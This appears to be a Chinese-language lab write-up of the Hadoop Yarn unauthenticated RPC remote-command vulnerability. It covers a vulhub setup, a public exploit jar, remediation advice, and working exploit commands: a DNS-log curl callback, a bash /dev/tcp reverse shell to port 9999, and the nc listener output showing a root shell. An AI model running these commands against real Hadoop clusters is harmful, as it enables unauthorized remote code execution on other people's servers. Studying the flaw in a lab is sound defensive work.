 # Hadoop Yarn RPC未授权访问漏洞

## 漏洞简述

Hadoop Yarn作为Hadoop核心组件之一，负责将资源分配至各个集群中运行各种应用程序，并调度不同集群节点上的任务执行。Hadoop Yarn默认对外开放RPC服务，攻击者可利用RPC服务执行任意命令，控制服务器。

同时由于Hadoop Yarn RPC服务访问控制机制开启方式与REST API不一样，因此即使在 REST API有授权认证的情况下，RPC服务所在端口仍然可以未授权访问。

## 环境搭建

> https://github.com/vulhub/vulhub/tree/master/hadoop/unauthorized-yarn

需要修改docker-compose.yml，添加8032端口映射。

![image-20220726135831239](../../.gitbook/assets/image-20220726135831239.png)

curl请求8032端口。

```
[root@localhost tmp]# curl http://192.168.32.183:8032
It looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.
```



## 漏洞利用

EXP：https://github.com/cckuailong/YarnRpcRCE

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "curl 0dccw6.dnslog.cn"
log4j:WARN No appenders could be found for logger (org.apache.hadoop.util.Shell).
log4j:WARN Please initialize the log4j system properly.
log4j:WARN See http://logging.apache.org/log4j/1.2/faq.html#noconfig for more info.
```

![image-20220726143734307](../../.gitbook/assets/image-20220726143734307.png)

查看日志

![image-20220726144048169](../../.gitbook/assets/image-20220726144048169.png)

反弹shell

```
[root@localhost YarnRpcRCE-master]# java -jar YarnRpcUnauth.jar 192.168.32.183:8032 "bash -i >& /dev/tcp/192.168.32.183/9999 0>&1"
```

成功建立连接

```
[root@localhost tmp]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.19.0.5.
Ncat: Connection from 172.19.0.5:59812.
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
<00863_0003/container_1658816800863_0003_01_000001# whoami
whoami
root
<00863_0003/container_1658816800863_0003_01_000001# 
```



## 漏洞修复

1. Apache Hadoop官方建议用户开启Kerberos认证。
2. 设置 Hadoop RPC服务所在端口仅对可信地址开放。
3. 建议升级并启用Kerberos的认证功能，阻止未经授权的访问。



